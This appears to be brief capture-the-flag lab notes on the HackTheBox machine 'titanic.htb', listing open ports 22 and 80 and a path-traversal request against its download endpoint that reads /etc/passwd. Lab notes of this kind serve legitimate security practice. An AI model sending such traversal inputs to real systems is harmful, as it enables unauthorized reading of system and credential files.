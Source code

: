 titanic.htb 
============

nmap result:
------------

Open port: 22,80 

80 --> titanic.htb 

http://titanic.htb/download?ticket=../../../../etc/passwd ==> works 

